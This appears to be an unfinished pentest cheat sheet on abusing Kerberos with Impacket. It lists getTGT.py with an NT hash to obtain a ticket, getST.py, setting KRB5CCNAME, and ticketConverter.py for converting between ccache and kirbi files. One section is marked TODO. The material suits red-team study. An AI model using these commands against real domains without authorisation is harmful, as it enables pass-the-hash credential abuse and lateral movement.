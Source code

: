 # Unix Shell

## 01 - Extract Ticket

TODO: Fill this info

```
$ getTGT.py <domain_name>/<username> -hashes :<NT>

$ getST.py

$ export KRB5CCNAME=/path/to/file.ccache
```

## 02 - Convert Tickets

`$ ticketConverter.py file.ccache file.kirbi`

- Convert from ticket (`.kirbi`) to ccache (`.ccache`).

`$ ticketConverter.py file.kirbi file.ccache`

---
## References

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)